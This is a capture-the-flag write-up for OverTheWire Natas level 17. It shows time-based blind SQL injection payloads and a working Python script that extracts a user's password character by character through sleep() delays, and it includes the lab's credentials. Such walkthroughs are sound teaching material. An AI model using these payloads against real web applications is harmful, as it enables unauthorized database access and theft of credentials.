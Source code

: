 ```php
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?> 
```

This is blind SQL injection, we don't know about information of response in browser. So we will try blind SQL injection with time delays.

Step 1: Test payload

```
username=natas18%22+and+sleep(3)%23 -> time response=3 -> user natas18 exists.
```

Step 2: Brute-force length password

```
username=natas18%22+and+length(password)%3d§32§+and+sleep(3)%23 -> Length password = 32.
```

Step 3: Brute-force password char by char

```
username=natas18%22+and+substring(password,§1§,1)+like+binary+%22§a§%22+and+sleep(3)%23 -> 
```

This following python code `natas17.py`:

```python
#!/usr/bin/python3
import requests
from string import ascii_letters, digits

url = "http://natas17.natas.labs.overthewire.org/index.php"
auth_username = "natas17"
auth_password = "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw"

# brute-force length
for i in range(100):
    uri = '{}?username=natas18%22+and+length(password)%3d{}+and+sleep(3)%23'.format(url, i)
    r = requests.get(uri, auth=(auth_username,auth_password))
    if r.elapsed.total_seconds() > 3:
        length = i
        print('password length:', i)
        break

characters = ascii_letters + digits
print('characters:', characters)

# brute-force char
password = ''
for i in range(length):
    for char in characters:
        uri = '{}?username=natas18%22+and+substring(password,{},1)+like+binary+%22{}%22+and+sleep(3)%23'.format(url, i+1, char)
        r = requests.get(uri, auth=(auth_username,auth_password))
        if r.elapsed.total_seconds() > 3:
            password += char
            print('password:', password)
            break
```
